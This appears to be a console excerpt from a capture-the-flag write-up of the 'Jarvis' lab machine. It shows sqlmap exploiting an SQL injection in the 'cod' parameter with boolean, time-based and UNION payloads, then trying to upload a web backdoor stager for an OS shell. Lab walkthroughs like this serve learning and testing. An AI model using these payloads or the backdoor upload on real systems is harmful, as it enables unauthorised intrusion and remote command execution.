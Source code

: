 ```console
$ sqlmap -u http://jarvis.htb/room.php?cod=1 --batch --level 4 --os-shell
        ___
       __H__
 ___ ___[)]_____ ___ ___  {1.7.10#stable}
|_ -| . ["]     | .'| . |
|___|_  [(]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 12:50:10 /2023-12-28/

[12:50:10] [INFO] resuming back-end DBMS 'mysql'
[12:50:10] [INFO] testing connection to the target URL
you have not declared cookie(s), while server wants to set its own ('PHPSESSID=5dm7vli7va9...sn91kr89b5'). Do you want to use those [Y/n] Y
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: cod (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: cod=1 AND 7286=7286

    Type: time-based blind
    Title: MySQL >= 5.0.12 OR time-based blind (SLEEP)
    Payload: cod=1 OR SLEEP(5)

    Type: UNION query
    Title: Generic UNION query (NULL) - 7 columns
    Payload: cod=-8059 UNION ALL SELECT NULL,CONCAT(0x7170627671,0x774d52427a6b72505071716461444b4c624f4970684846596f78495858464a63744c694c64706b79,0x7170787171),NULL,NULL,NULL,NULL,NULL-- -
---
[12:50:14] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian 9 (stretch)
web application technology: Apache 2.4.25, PHP
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[12:50:14] [INFO] going to use a web backdoor for command prompt
[12:50:14] [INFO] fingerprinting the back-end DBMS operating system
[12:50:15] [INFO] the back-end DBMS operating system is Linux
which web application language does the web server support?
[1] ASP
[2] ASPX
[3] JSP
[4] PHP (default)
> 4
[12:50:15] [WARNING] unable to automatically retrieve the web server document root
what do you want to use for writable directory?
[1] common location(s) ('/var/www/, /var/www/html, /var/www/htdocs, /usr/local/apache2/htdocs, /usr/local/www/data, /var/apache2/htdocs, /var/www/nginx-default, /srv/www/htdocs, /usr/local/var/www') (default)
[2] custom location(s)
[3] custom directory list file
[4] brute force search
> 1
[12:50:15] [INFO] retrieved web server absolute paths: '/images/'
[12:50:15] [INFO] trying to upload the file stager on '/var/www/' via LIMIT 'LINES TERMINATED BY' method
[12:50:17] [WARNING] unable to upload the file stager on '/var/www/'
[12:50:17] [INFO] trying to upload the file stager on '/var/www/' via UNION method
[12:50:18] [WARNING] expect junk characters inside the file as a leftover from UNION query
```